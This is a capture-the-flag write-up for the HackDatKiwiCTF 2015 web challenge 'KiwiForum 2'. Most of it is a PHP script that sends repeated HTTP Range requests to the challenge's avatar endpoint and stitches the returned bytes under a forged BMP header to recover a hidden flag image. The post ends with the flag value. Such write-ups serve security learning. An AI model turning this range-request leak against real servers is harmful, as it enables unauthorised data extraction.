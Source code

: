 ```yaml
---
layout: post
title: "HackDatKiwiCTF 2015 - KiwiForum 2"
category: writeups
author: phosphore
tags: web kiwictf-2015
---
```


## KiwiForum 2
Web - 250 Points

That was a nasty bug! But not anymore. Try it this time.

### Writeup
Following KiwiForum 1, we have the source code of this challenge, but this time the bug on loader is patched. We were at the Milan Codemotion 2015 on our second day, so we coded this hack while moving to different speakers every hour or so.<br/>
Using the header HTTP_RANGE available by the downloader, we wrote a php script to download intervals of the image. Doing so, we played with the function generate_bitmap($width,$height,$bitmap) in the purecaptcha.php file.<br/>

{% highlight php %}
<?php
ini_set('max_execution_time', 0);

$width   = 7200;
$height  = 7800;
$rowSize = floor(($width + 31) / 32) * 4;
$size    = $rowSize * $height + 62; //62 metadata size 
#bitmap header
$data    = "BM"; //header
$data .= (pack('V', $size)); //bitmap size , 4 bytes unsigned little endian
$data .= "RRRR";
$data .= (pack('V', 14 + 40 + 8)); //bitmap data start offset , 4 bytes unsigned little endian, 14 forced, 40 header, 8 colors

#info header //42+66 ahead
$data .= pack('V', 40); //bitmap header size (min 40), 4 bytes unsigned little-endian
$data .= (pack('V', $width)); //bitmap width , 4 bytes signed integer
$data .= (pack('V', $height)); //bitmap height , 4 bytes signed integer
$data .= (pack('v', 1)); //number of colored plains , 2 bytes 
$data .= (pack('v', 1)); //color depth , 2 bytes 
$data .= (pack('V', 0)); //compression algorithm , 4 bytes (0=none, RGB)
$data .= (pack('V', 0)); //size of raw data, 0 is fine for no compression , 4 bytes 
$data .= (pack('V', 11808)); //horizontal resolution (dpi), 4 bytes 
$data .= (pack('V', 11808)); //vertical resolution (dpi), 4 bytes 
$data .= (pack('V', 0)); //number of colors in pallette (0 = all), 4 bytes 
$data .= (pack('V', 0)); //number of important colors (0 = all), 4 bytes 

#color palette
$data .= (pack('V', 0)); //first color, black
$data .= (pack('V', 0x00FFFFFF)); //next color, white

//echo strlen($data); //62
$j = 62; //prime 0 righe
for ($i = 900; $i < $size - 62; $i = $i + 9000) //900 is byte length of a row, 9000 = 10 rows
    {
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, 'http://c51a65.hack.dat.kiwi/web/kiwi-forum2/avatar?id=1');
    
    curl_setopt($ch, CURLOPT_RANGE, $j . '-' . $i);
    echo $j . '-' . $i . "\r\n";
    $j = $i;
    curl_setopt($ch, CURLOPT_BINARYTRANSFER, 1);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $result = curl_exec($ch);
    curl_close($ch);
    $data .= $result;
    
    for ($k = 0; $k < 100000; ++$k) //100'800 white space (112 lines)
        $data .= pack('C', 0); //whitespace
    $i = $i + 100000;
    $j = $j + 100000;
    
}

$file = "flag_1000000.bmp";
file_put_contents($file, $data);

?>
{% endhighlight %}

After a few minutes, here is the result:<br/>

![Flag]({{ site.url }}/assets/flagcurled.png){: .center-image }

Due to a bug in the script, (my fault!) the first characters in the first two lines are actually at the end.
The flag so it becomes: `0390c17ec34f1b4c`
